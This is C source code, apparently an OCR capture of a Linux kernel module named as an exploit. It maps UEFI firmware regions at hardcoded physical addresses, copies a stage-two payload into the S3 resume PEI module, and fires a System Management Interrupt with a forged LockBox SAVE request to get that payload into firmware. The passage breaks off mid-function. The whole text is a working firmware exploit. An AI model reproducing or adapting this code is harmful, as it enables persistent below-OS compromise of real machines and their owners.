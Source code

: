 ```C
static unsigned long RtDataPhys = 0x000000000E8ED000;
static struct RtDataLayout *RtDataVirt;
static unsigned long PiSmmIplPhys = 0x0000EAC6000;
static void *PiSmmIplVirt;
static unsigned long S3Resume2PeiPhys = 0x00000852540;
static void *S3Resume2PeiVirt;

static unsigned long mSmmCorePrivateDataOffset = 0x7160;
static ptrdiff_t S3Resume2Pei_payload_off = 0x00000000000028b8;

noinline __noclone
static void smi(void)
{
	__asm__ __volatile__(
		"xor %%eax,%%eax\n"
		"outb %%al,$0xB3\n"
		"outb %%al,$0xB2\n"
		"jmp 1f\n"
		"1:\n"
		::: "rax","memory"
	);
}

static int __init lockbox(union lockboxparam *data)
{
	SMM_CORE_PRIVATE_DATA *gSmmCorePrivate =
		PiSmmIplVirt + mSmmCorePrivateDataOffset;

	RtDataVirt->header.HeaderGuid = (EFI_GUID)
		{ 0x2a3cfebd, 0x27e8, 0x4d0a, { 0x8b, 0x79, 0xd6, 0x88, 0xc2, 0xa3, 0xe1, 0xc0 }};
	RtDataVirt->header.MessageLength = sizeof(struct RtDataLayout);
	RtDataVirt->lockboxparam = *data;

	gSmmCorePrivate->CommunicationBuffer = (void *)RtDataPhys;
	gSmmCorePrivate->BufferSize = sizeof(EFI_SMM_COMMUNICATE_HEADER) +
		RtDataVirt->header.MessageLength;

	mb();
	smi();

	return 0;
}


static int __init exploit_init(void)
{
	RtDataVirt = ioremap(RtDataPhys, 0x1000);
	PiSmmIplVirt = ioremap(PiSmmIplPhys, 0x10000);
	S3Resume2PeiVirt = ioremap(S3Resume2PeiPhys, 0x10000);

	memcpy(S3Resume2PeiVirt + S3Resume2Pei_payload_off, &payload_stage2,
		&payload_end-&payload_stage2);

	lockbox(&(union lockboxparam){ .save = {
		.Header.Command      = EFI_SMM_LOCK_BOX_COMMAND_SAVE,
		.Header.DataLength   = sizeof (EFI_SMM_LOCK_BOX_PARAMETER_SAVE),
		.Header.ReturnStatus = (UINT64)-1,
		.Guid                = (EFI_GUID)
			{ 0xda1a9002, 0x041b, 0x44b4, { 0xa9, 0x17, 0xfc, 0xe3, 0x89, 0xfd, 0x0a, 0xa1 }},
		.Buffer              = S3Resume2PeiPhys + S3Resume2Pei_payload_off,
		.Length              = &payload_end-&payload_stage2,
	}});

```
